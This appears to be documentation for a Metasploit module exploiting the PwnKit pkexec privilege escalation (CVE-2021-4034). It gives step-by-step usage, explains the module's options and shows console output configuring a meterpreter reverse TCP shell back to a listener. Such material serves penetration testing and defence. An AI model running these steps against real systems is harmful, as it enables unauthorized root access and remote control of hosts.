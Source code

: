 ## Verification

* Start `msfconsole`
* Get a non-root shell/meterpreter
* use `exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec`
* set SESSION `<session-id>`
* set LHOST `<lhost-IP>`
* `run`

## Options


### WRITEABLE_DIR
This indicates the location where you would like the payload and exploit stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

### PKEXEC_PATH
This indicates the location of the `pkexec` binary.  Normally, the module can find the it without help.
It defaults to nil.

## Advanced Options

### FinalDir
This indicates the starting directory for the new root-enabled session.  The module deletes the working directory
out from under the running payload, so the current working directory for the new session will not exist, and that
can result in odd errors, so we just change to a directory that does exist before user interaction.
It defaults to `/`

## Scenarios

```
msf exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > show options

Module options (exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PKEXEC_PATH                    no        The path to pkexec binary
   SESSION       1                yes       The session to run this module on
   WRITABLE_DIR  /tmp             yes       A directory where we can write files


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.101     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   x86_64


```